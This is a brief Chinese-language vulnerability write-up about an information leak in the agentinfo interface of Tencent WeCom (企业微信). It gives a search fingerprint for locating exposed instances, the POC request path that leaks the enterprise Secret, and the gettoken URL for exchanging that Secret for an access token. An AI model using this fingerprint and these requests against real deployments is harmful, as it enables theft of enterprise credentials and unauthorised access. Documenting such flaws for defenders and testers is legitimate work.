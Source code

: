 # 

# 腾讯 企业微信 agentinfo 信息泄漏漏洞

## 漏洞描述

腾讯 企业微信 agentinfo 接口存在信息泄漏漏洞，攻击者通过漏洞可以获取企业微信 Secret

## 漏洞影响

腾讯 企业微信

## 网络测绘

```
web.body="wework_admin.normal_layout"
```

## 漏洞复现

登陆页面

![image-20230828145521417](images/image-20230828145521417.png)

验证POC

```
/cgi-bin/gateway/agentinfo
```

![image-20230828145533569](images/image-20230828145533569.png)

获取Token

```
https://qyapi.weixin.qq.com/cgi-bin/gettoken?corpid=<YOUR_CORPID>&corpsecret=<YOUR_CORPSECRET>
```


